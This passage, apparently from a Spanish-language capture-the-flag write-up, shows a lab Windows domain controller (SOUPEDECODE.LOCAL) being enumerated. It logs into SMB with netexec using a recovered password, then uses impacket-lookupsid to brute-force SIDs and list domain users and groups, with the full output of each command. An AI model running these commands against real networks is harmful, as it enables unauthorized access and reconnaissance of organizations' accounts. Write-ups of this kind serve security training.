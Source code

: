 Hemos obtenido la contraseña para el usuario charlie : charlie .

# SMB with user charlie

```bash
netexec smb 10.0.4.18 -u 'charlie' -p 'charlie'  --shares
```
Info:
```
SMB         10.0.4.18       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.0.4.18       445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         10.0.4.18       445    DC01             [*] Enumerated shares
SMB         10.0.4.18       445    DC01             Share           Permissions     Remark
SMB         10.0.4.18       445    DC01             -----           -----------     ------
SMB         10.0.4.18       445    DC01             ADMIN$                          Remote Admin
SMB         10.0.4.18       445    DC01             C$                              Default share
SMB         10.0.4.18       445    DC01             IPC$            READ            Remote IPC
SMB         10.0.4.18       445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.4.18       445    DC01             SYSVOL          READ            Logon server share
```

Nada interesante en los recursos de SMB

# Impacket lookupsid
Ahora que contamos con un usuario y contraseña validos vamos a sacar todos los usuarios del sistema utilizando la herramienta de impacket lookupsid.py.

```bash
impacket-lookupsid SOUPEDECODE.LOCAL/charlie@10.0.4.18 > user.txt
```

Info:
```
[*] Brute forcing SIDs at 10.0.4.18
[*] StringBinding ncacn_np:10.0.4.18[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2986980474-46765180-2505414164
498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SOUPEDECODE\Administrator (SidTypeUser)
501: SOUPEDECODE\Guest (SidTypeUser)
502: SOUPEDECODE\krbtgt (SidTypeUser)
512: SOUPEDECODE\Domain Admins (SidTypeGroup)
513: SOUPEDECODE\Domain Users (SidTypeGroup)
514: SOUPEDECODE\Domain Guests (SidTypeGroup)
515: SOUPEDECODE\Domain Computers (SidTypeGroup)
516: SOUPEDECODE\Domain Controllers (SidTypeGroup)
517: SOUPEDECODE\Cert Publishers (SidTypeAlias)
518: SOUPEDECODE\Schema Admins (SidTypeGroup)
519: SOUPEDECODE\Enterprise Admins (SidTypeGroup)
520: SOUPEDECODE\Group Policy Creator Owners (SidTypeGroup)
521: SOUPEDECODE\Read-only Domain Controllers (SidTypeGroup)
522: SOUPEDECODE\Cloneable Domain Controllers (SidTypeGroup)
525: SOUPEDECODE\Protected Users (SidTypeGroup)
526: SOUPEDECODE\Key Admins (SidTypeGroup)
527: SOUPEDECODE\Enterprise Key Admins (SidTypeGroup)
553: SOUPEDECODE\RAS and IAS Servers (SidTypeAlias)
571: SOUPEDECODE\Allowed RODC Password Replication Group (SidTypeAlias)
572: SOUPEDECODE\Denied RODC Password Replication Group (SidTypeAlias)
1000: SOUPEDECODE\DC01$ (SidTypeUser)
1101: SOUPEDECODE\DnsAdmins (SidTypeAlias)
1102: SOUPEDECODE\DnsUpdateProxy (SidTypeGroup)
1103: SOUPEDECODE\bmark0 (SidTypeUser)
```